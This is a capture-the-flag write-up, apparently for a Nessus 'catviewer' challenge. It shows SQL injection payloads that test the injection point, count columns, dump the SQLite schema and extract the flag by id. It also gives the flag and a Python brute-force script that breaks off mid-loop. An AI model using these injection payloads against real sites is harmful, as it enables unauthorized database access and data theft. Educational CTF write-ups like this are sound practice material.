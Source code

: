 
i tried payload sql injection and got good results.
payload: `/index.php?cat=Shelton" or 1=1;--`

![](https://hackmd.io/_uploads/HJtHggz2h.png)

=> Yes, there is a SQL injection vulnerability here

however there is a secret problem, the images are really long. Plus having a lot of images to display resulted in my browser lagging for quite a while.

- Check the number of columns returned.
![](https://hackmd.io/_uploads/Hy8WWlfhh.png)

![](https://hackmd.io/_uploads/ry5MZlGnn.png)

=> This shows that there are 4 columns returned I will modify the payload to see the structure of the tables.

that's right, we can insert the payload at column number 3.
![](https://hackmd.io/_uploads/r18v-efhh.png)

payload:
`Shelton" union select 1,2,3,4;--`

- dump database struct
```
https://nessus-catviewer.chals.io/index.php?cat=Shelton" union select 1,2,(SELECT sql FROM sqlite_schema),4;--
```

![](https://hackmd.io/_uploads/rkXyMgf23.png)

In the database there is a table named `cats` with 4 columns including `id,image,name,flag`.

The image data is quite large, so it is difficult to dump the whole thing and check the flag. So we can brute force by id to get flags content.
Ex: `/index.php?cat=Shelton" union select 1,2,(select flag from cats where id = 1),4;--`

![](https://hackmd.io/_uploads/S1H3-MM22.png)

OK flag here 




Flag: `flag{a_sea_of_cats}`

### Script
```python
import requests
from bs4 import BeautifulSoup
from tqdm import tqdm
import re

url = "https://nessus-catviewer.chals.io/index.php?cat=Shelton"

payload = '" union select 1,2,(select flag from cats where id = ##),4;--'

def getFlag(res):
    soup = BeautifulSoup(res, "html.parser")
    for br in soup.find_all("br"):
        br.replace_with("\n")
    name_element = soup.find(string=re.compile(r'Name:'))
    name_value = name_element.split('Name: ')[1].strip()
    return name_value

with requests.Session() as session:
    for i in tqdm(range(1,1000)):
```